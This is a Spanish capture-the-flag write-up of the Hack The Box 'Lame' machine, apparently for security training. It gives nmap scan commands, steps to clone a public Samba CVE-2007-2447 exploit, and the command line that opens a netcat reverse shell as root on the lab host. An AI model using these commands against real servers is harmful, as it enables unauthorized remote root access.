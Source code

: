 #  LAME MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.3 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p21,22, -sV -sC 10.10.10.3 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/3.PNG)

## EXPLOTACION

Vemos que tiene el samba activado y la version es 3.0.X que es desactualizado, sibuscamos esa version en google junto a la palabra exploit encontramos el siguiente repositorio de github:

[https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/4.PNG)

estos son los pasos de instalacion:

```bash
sudo apt install python python-pip #si no tienes pip2
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```

la forma de ejecucion:

```bash
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/5.PNG)

nos ponemos a la escucha en netcat y obtenemos una conexion reversa como root:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/6.PNG)

## ELEVACION DE PRIVILEGIOS

No necesitamos elevar privilegios porque somos root y podemos ver las 2 flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/7.PNG)